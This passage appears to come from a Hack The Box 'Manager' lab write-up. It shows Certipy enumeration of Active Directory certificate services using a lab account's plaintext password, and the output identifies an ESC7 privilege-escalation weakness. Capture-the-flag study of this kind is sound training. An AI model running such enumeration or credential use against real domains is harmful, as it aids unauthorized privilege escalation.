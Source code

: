 ```shell
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
[...]
```

Certificate templates "WebServer" e "SubCA" have the "ENROLLEE_SUPPLIES_SUBJECT" flag set, but they are not vulnerable because the "Enrollment Rights"  - which principals can request a certificate – are "Enterprise Admins" and "Domain Admins" this singnifies that through the current user you cannot request certificates.

For not knowing how to read or write, [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy) was also run remotely.

```shell
$ certipy find -vulnerable -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236  
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Saved BloodHound data to '20240214161201_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240214161201_Certipy.txt'
[*] Saved JSON output to '20240214161201_Certipy.json'

$ cat 20240214161201_Certipy.txt                                                               
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```
